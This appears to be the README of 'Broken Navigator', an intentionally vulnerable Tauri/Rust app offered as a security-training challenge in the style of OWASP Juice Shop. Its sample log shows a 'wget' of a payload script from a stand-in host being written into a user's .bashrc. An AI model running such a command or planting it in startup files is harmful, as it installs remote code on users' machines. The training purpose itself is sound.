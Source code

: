 # Broken Navigator

## Disclaimer

This project is an example of a vulnerable application. It contains intentional
vulnerabilities and is meant as educational example.
**Please do not use or copy code from this application in any productive application!**

## Welcome

Welcome fellow travelers of the Tauri galaxy.
We figured you need something to guide you trough your journey, a tool that assures
safe travel at all times.
This is one of the reasons our Navigator was born. Unfortunately we encountered some hurdles
during development of this tool. One of our engineers went missing
during one of our test rides through the galaxy. They were using the Navigator
to orientate themselves in space. The other engineers suspect
they encountered some nasty space hackers, but we can't figure out where
our Navigator was breached. We stopped our engineering efforts until we
can be sure it is safe to use.

We are looking for security engineers to figure out how they breached our
engineers Navigator and how we can protect everyone using it.
Can you help us?

We got some logs transmitted before we lost contact. This could contain
some hints of the initial entrypoint.

```
2023-10-11T08:58:53.795661Z INFO load_navigation_readme{path="/tmp/readme"}: broken_navigator::commands: The Navigator loaded the navigation readme from /tmp/readme!
2023-10-11T08:59:53.799543Z  INFO write_navigation_event{event_data="wget https://example.com/payload.sh" path="/home/user/.bashrc"}: broken_navigator::commands: The space event /home/user/.bashrcc was saved!
```

## Functionality

- Load navigation files from the filesystem
- Write events to the filesystem
- Execute navigation file validation tools
- Load map updates from external map server
- Allows our admin console to fix broken navigation systems
- Provide clipboard assistant when copying coordinates
- ?

## Why is this application a thing?

This application is meant to showcase insecure, weak and improper code pattern commonly used in Tauri applications.
It is meant to be educational and to show newcomers to Rust what they should consider when building
Tauri `commands` or in general Tauri applications.

A similar project is the [OWASP Juice Shop](), which is focused on web applications running
in the browser.
